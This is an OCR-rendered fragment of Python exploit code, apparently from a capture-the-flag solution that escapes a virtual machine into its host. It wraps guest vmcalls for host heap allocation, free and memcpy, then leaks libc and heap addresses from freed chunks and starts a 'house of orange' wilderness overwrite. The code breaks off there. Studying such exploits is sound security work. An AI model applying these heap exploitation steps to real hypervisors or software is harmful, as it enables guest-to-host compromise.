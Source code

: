 ```python
        FREE_OP_ALLCLEAN = 3

        def host_free(op, idx):
            assert(idx <= 16)
            assert(op >= FREE_OP_NOCLEAN \
                   and op <= FREE_OP_ALLCLEAN)
            vmcall(GUEST_VMCALL_FREE, op, idx, 0xbeef)

        # Variant of the memcpy vmcall
        MEMCPY_OP_GUEST_TO_HOST = 1
        MEMCPY_OP_HOST_TO_GUEST = 2

        # Copies to or from the buf at 0x4000, accessible via readbuf/writebuf
        def host_memcpy(op, idx, size):
            assert(op == MEMCPY_OP_GUEST_TO_HOST \
                   or op == MEMCPY_OP_HOST_TO_GUEST)
            assert(idx <= 16)
            vmcall(GUEST_VMCALL_MEMCPY, op, idx, size)

        # Writes the given memory contents into one of the host allocations
        def write_host_mem(idx, mem):
            writebuf(mem)
            host_memcpy(MEMCPY_OP_GUEST_TO_HOST, idx, len(mem))

        # Reads `size` bytes from host memory at the given allocation
        def read_host_mem(idx, size):
            host_memcpy(MEMCPY_OP_HOST_TO_GUEST, idx, size)
            return readbuf(size)

        # Verify that everything is working
        writebuf("hello")
        assert(readbuf(5) == "hello")

        host_alloc(128)
        write_host_mem(0, "world")
        assert(read_host_mem(0, 5) == "world")
        host_free(FREE_OP_ALLCLEAN, 0)

        # HOST SPLOIT:
        NICE_CHUNK_SZ = 0x400 - 16

        # 1. leak libc address and heap address
        host_alloc(NICE_CHUNK_SZ)
        host_alloc(NICE_CHUNK_SZ)
        host_alloc(NICE_CHUNK_SZ)
        host_alloc(NICE_CHUNK_SZ)
        host_free(FREE_OP_NOCLEAN, 0)
        host_free(FREE_OP_ALLCLEAN, 2)

        mem = read_host_mem(0, 16)
        libc = u64(mem[:8]) - 0x58 - LIBC_MAIN_ARENA
        heap = u64(mem[8:]) - 0x800
        print "libc: 0x{:x}".format(libc)
        print "heap: 0x{:x}".format(heap)

        # clean up
        host_free(FREE_OP_ALLCLEAN, 1)
        host_free(FREE_OP_ALLCLEAN, 3)

        # 2. overwrite Wilderness to enter the house of orange
        NICE_CHUNK_SZ = 0x200 - 16
        host_alloc(NICE_CHUNK_SZ) # 1
        write_host_mem(1, "A"*NICE_CHUNK_SZ)
```
